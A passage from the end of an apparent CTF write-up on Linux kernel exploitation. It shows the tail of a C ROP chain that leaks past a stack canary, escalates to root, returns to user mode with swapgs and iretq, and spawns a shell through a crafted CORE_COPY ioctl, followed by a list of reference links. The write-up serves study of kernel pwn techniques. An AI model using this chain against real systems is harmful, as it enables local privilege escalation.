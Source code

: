 ```c
    {
        rop[i] = canary;
    }
	rop[i++] = (size_t)Getroot;
	rop[i++] = swapgs;
	rop[i++] = 0;
	rop[i++] = iretq;
    rop[i++] = (size_t)GetShell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;
	
	write(fd, rop, sizeof(rop));
	ioctl(fd, CORE_COPY, 0xffffffffffff0000|0x100);
	return 0;
}
```

## Reference

[1] https://unix.stackexchange.com/questions/5518/what-is-the-difference-between-the-following-kernel-makefile-terms-vmlinux-vml

[2] https://blog.csdn.net/gatieme/article/details/78311841

[3] https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/rop/

[4] https://www.anquanke.com/post/id/258874

[5] https://cplusplus.com/reference/cstdlib/strtoull/

[6] https://zhuanlan.zhihu.com/p/266318493

